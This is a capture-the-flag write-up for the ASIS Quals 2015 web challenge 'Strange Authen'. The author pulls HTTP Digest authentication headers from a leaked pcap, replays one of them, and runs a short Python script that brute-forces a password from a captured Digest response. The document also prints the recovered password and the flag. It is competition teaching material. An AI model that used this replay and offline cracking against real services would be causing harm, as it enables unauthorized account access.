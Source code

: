 # ASIS Quals CTF 2015: Strange Authen

**Category:** Web
**Points:** 225
**Solves:** 12
**Description:**

> Go [there](http://strangeauthen.asis-ctf.ir/) and find the flag.

## Write-up

After spend sometimes to find some vulnerabilities with no luck I check robots.txt, there was an important path there and it was misc folder contains pcap file. So take a look at pcap and filter with ‘http && ip.dst == 217.218.48.85’ and get some interesting packets:

	GET /login.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="admin", realm="this page for admin only, go out", nonce="5549f5f40edf1", uri="/login.php", response="d9ace07007cb801fa28a3bba92ddd515", opaque="e7c2664182934b3197e2e8dc48dbcf41", qop=auth, nc=00000393, cnonce="e7c3a4eefacfefbb"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22
	
	GET /login.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="factoreal", realm="this page for admin only, go out now!", nonce="554aed8c0b2d8", uri="/login.php", response="d9b58c347f96195884ce27036f3c9546", opaque="d073cc4342291e6270746b4675498022", qop=auth, nc=00000001, cnonce="d6d1a0a39a93b4c3"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/index.html
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22
	
	GET /7he_most_super_s3cr3t_page.php HTTP/1.1
	Host: strangeauthen.asis-ctf.ir
	Connection: keep-alive
	Authorization: Digest username="factoreal", realm="this page for admin only, go out now!", nonce="554aed8c0b2d8", uri="/7he_most_super_s3cr3t_page.php", response="587bb0cf4968b88fdf00c8ae81ff8bf4", opaque="d073cc4342291e6270746b4675498022", qop=auth, nc=00000002, cnonce="bd65e746ecf4d7e7"
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
	DNT: 1
	Referer: http://strangeauthen.asis-ctf.ir/login.php
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: en-US,en;q=0.8,fa;q=0.6,de;q=0.4
	Cookie: PHPSESSID=hkgvkkaoq60v2bv613r2uouq22

At first I try to login by changing Authorization with Tamper data, the first one doesn’t work the second one, BOOM…
I logged in as factorial so let see most secret page… It needs to login! Lets try the 3rd one, no luck…
So what’s the point, it’s digest access authentication so maybe I should bruteforce the password, lets ask google and the first result was Wikipedia ‘Digest access authentication’.
The example points to 3 important things:

	1. The MD5 hash of the combined username, authentication realm and password is calculated. The result is referred to as HA1.
	2. The MD5 hash of the combined method and digest URI is calculated, e.g. of "GET" and "/dir/index.html". The result is referred to as HA2.
	3. The MD5 hash of the combined HA1 result, server nonce (nonce), request counter (nc), client nonce (cnonce), quality of protection code (qop) and HA2 result is calculated. The result is the "response" value provided by the client.

We have everything except password:

	username="factoreal"
	realm="this page for admin only, go out now!"
	nonce="554aed8c0b2d8"
	uri="/login.php"
	response="d9b58c347f96195884ce27036f3c9546"
	qop=auth
	nc=00000001
	cnonce="d6d1a0a39a93b4c3"

I ask about password type and admin points to the top password lists, so I write my script to bruteforce and I just need to password list that contains our goal:

	import hashlib
	
	password = open('passwords.txt').read().splitlines()
	h2 = hashlib.md5("GET:/login.php").hexdigest()
	for i in range(len(password)):
		h1 = hashlib.md5("factoreal:this page for admin only, go out now!:" + password[i]).hexdigest()
		result = hashlib.md5(h1 + ":554aed8c0b2d8:00000001:d6d1a0a39a93b4c3:auth:" + h2).hexdigest()
		if result == "d9b58c347f96195884ce27036f3c9546":
			print "[*] Password found: " + password[i]
			exit()

I try some password list and it was really hard to find the best one, but finally it works and I find the password:

	[*] Password found: secpass

So let’s login again. It works, but stuck on visiting top secret page…  I try to sync admin content with my own, PHPSESSID and UserAgent, another try and it doesn’t work! I ask admin and he tells that I’m in right way, but why it doesn’t work! He points to change cookie date and I do it, change that to 2016 and try again, let’s check the page:

	Welcome factoreal, nice to see you again!
	Congratz! Great you found me!

And here is the Flag:

	ASIS{004efe5ec5867811f4f13bc8f9921517}

## Other write-ups and resources

* none yet
